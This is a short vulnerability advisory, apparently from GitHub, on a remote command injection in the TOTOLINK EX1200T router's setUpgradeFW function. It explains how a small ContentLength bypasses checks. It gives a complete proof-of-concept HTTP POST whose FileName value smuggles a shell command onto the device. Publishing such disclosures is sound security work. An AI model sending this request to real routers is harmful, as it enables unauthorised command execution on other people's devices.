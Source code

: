# TOTOLINK EX1200T RCE

## Remote Command Injection Vulnerability Description

PRODUCT: TOTOLINK EX1200T V4.1.2cu.5215 (latest version)

There is a remote command injection in the function `setUpgradeFW` of the file `upgrade.so` , we can control the `FileName` to attack.

![image-20211102215552210](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211102215552210.png)

if `ContentLength` < 1000, a series of checks can be bypassed.

![image-20211102215605521](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211102215605521.png)

## PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
If-Modified-Since: Thu, 01 Jan 1970 00:00:03 GMT
Connection: close
Content-Length: 101

{"topicurl":"setting/setUpgradeFW",
"Flags":"1",
"FileName":"\nps>/web_cste/test1\n",
"ContentLength":"111"}
```

![image-20211019162919271](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211019162919271.png)

